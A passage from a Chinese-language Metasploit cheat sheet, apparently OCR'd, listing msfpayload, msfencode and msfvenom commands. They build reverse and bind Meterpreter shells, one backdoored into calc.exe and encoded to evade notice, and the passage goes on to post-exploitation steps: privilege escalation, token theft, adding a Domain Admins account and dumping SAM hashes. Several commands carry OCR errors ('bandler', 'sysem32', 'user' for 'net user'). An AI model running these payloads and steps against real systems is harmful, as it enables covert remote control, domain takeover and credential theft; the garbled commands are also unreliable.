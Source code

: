 - msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R|msfencode -x calc.exe -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe

创建一个反弹式的meterpreter攻击载荷，回连到192.168.1.5主机的443端口，使用calc.exe作为载荷后门程序，不让载荷执行流一直运行在被攻击的应用程序中，同时在攻击载荷执行后也不会再目标主机上弹出任何信息。这种配置非常有用，当你通过浏览器漏洞控制了远程主机，并不想让计算机程序打开呈现在目标用户面前，同样，最后生成用.shikata_ga_nai 编码的攻击载荷程序payload.exe。

- msfpayload windows/meterpreter/bind_tcp LPORT=443 R|msfencode -0 payload.exe -e x86/shikata_ga_nai -c 7 exe & & msfcli multi/bandler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E

创建一个raw格式的bind_tcp模式Meterpreter攻击载荷，用shikata_ga_nai编码7次，输出以payload.exe命名的windows可执行程序文件，同时启用多路监听方式进行执行。

 

### 7.MSFvenom

利用MSFvenom，一个集成套件，来创建和编码你的攻击载荷。

msfvenom --payload

windows/meterpreter/reverse_tcp --format exe --encoder x86/shikata_ga_nai LHOST=172.16.1.32 LPORT=443 > msf.exe

[*] x86/shikata_ga_nai succeeded with size 317(iteration=1)

root://opt/framework3/msf3#

 

这一行命令就可以创建一个攻击载荷并自动产生出可执行文件格式。

 

### 8.Meterpreter后渗透攻击阶段命令。

在Windows主机上使用metarpreter进行提权操作。

meterpreter>use priv

meterpreter>getsystem

从一个给定的进程ID中窃取一个域管理员组令牌，添加一个域账户，并把域账户添加到域管理员组中。

 

meterpreter>ps

 

meterpreter>steal_token 1784

meterpreter>shell

c:\windows\sysem32>user metasploit @password /ADD /DOMAIN

c:\windows\sysem32>net group "Domain Admins" metasploit /ADD /DOMAIN

 

从SAM数据库中导出密码的哈希值。

meterpreter>use  priv

meterpreter>getsystem
